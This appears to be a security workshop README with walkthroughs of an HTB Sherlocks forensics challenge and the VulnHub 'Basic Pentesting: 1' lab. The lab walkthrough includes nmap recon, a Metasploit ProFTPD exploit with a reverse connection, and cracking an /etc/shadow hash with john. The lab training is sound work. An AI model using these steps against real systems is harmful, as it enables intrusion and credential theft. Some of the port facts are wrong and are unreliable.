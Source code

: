 # Hacking 101 - HTB Workshop

Hack The Box (HTB) is a platform that provides realistic penetration testing labs and challenges, allowing users to practice their cybersecurity skills in a safe environment. The platform offers a wide range of challenges, from web exploitation to reverse engineering, aimed at both beginners and experienced professionals.

## HTB Sherlocks - 'Noted' Challenge

[HTB Sherlocks - Noted](<https://app.hackthebox.com/sherlocks/Noted>)

### Overview

The 'Noted' challenge is a cyber sleuthing and analysis challenge that focuses more on Digital Forensics and Incident Response (DFIR) techniques. In this workshop, we will walk through the steps to solve this challenge.

### Instructions

1. Open everything with grep "**aws**" [**i**]. Go into the folder and then run:
    ```bash
    cat * | grep -i "aws"
    ```

2. Open the `session.xml` file to instantly get the filename and path.

3. Open the `LootANDPurge` file to directly access the zip file.

4. For UTC timestamp conversion, follow these steps:

    a. Open `time.txt` to obtain two values.

    b. Use the following Python formula to convert the timestamps:
    ```python
    import datetime

    timestamp_low = -1354503710
    timestamp_high = 31047188

    full_timestamp = (timestamp_high << 32) | (timestamp_low & 0xFFFFFFFF)

    timestamp_seconds = full_timestamp / 10**7
    timestamp = datetime.datetime(1601, 1, 1) + datetime.timedelta(seconds=timestamp_seconds)

    print(timestamp)
    ```
    Replace `timestamp_low` and `timestamp_high` with the obtained values.

#### Additional Steps

After obtaining the timestamp, proceed with the following steps:

1. Search on Pastebin to find the Ethereum wallet information.
2. Provide the Tor email address as required.

By following these steps, you will progress through the 'Noted' challenge on HTB Sherlocks.


## Offensive Security: Basic Pentesting: 1

Link to Challenge: [Basic Pentesting: 1 ~ VulnHub](<https://vulnhub.com/entry/basic-pentesting-1,216/>)

### Ports

- Ports are gateways to protocols and are managed by the operating system.
- There are 65,535 possible port numbers, with around 1200 commonly used ports and open ports starting from 2300 onwards.

### Downloads

1. VirtualBox: [Downloads – Oracle VM VirtualBox](<https://www.virtualbox.org/wiki/Downloads>)
2. Kali Linux: [Get Kali | Kali Linux](<https://www.kali.org/get-kali/#kali-virtual-machines>)
3. Target Machine: [Basic Pentesting: 1 ~ VulnHub](<https://vulnhub.com/entry/basic-pentesting-1,216/>)

### Steps

1. Find the Host IP using `ifconfig` or `ip addr` (under eth0).
2. Use `netdiscover -r <ip>/<subnet>` to find IP and MAC addresses of devices in the network.
   - Target PC is usually under vendor 'PCS Systemtechnik GmbH'.
   - Note down the target PC's IP.
3. Use nmap to find open ports on the target PC:
   - `nmap <targetIP>`
   - `nmap -sV <targetIP>`
   - `nmap -sV -sC <targetIP>`
   - `nmap -sV <targetIP> -vv`
4. Check each port for vulnerabilities.
5. Exploit the vulnerable FTP port using msfconsole:
   ```
   bash
   msfconsole
   search proftpd
   use 5
   set RHOSTS <TARGET_IP>
   set LHOST <your_ip>
   exploit
6. You are basically inside the laptop now. However, if you still want to find the password, navigate to /etc/ and decrypt the shadow file using john.
```
		==marlinspike:\$6\$wQb5nV3T$xB2WO/jOkbn4t1RUILrckw69LR/0EMtUbFFCYpM3MUHVmtyYW9.ov/aszTpWhLaC2x6Fvy5tpUUxQbUhCKbl4/==
john <file_name>
john --show <file_name>
```

## Term-GPT
- nmap :
		- Network mapping
		- Find all devices within the same network using your ip
- -sV : Show version
- -sC : Script scan using default set of scripts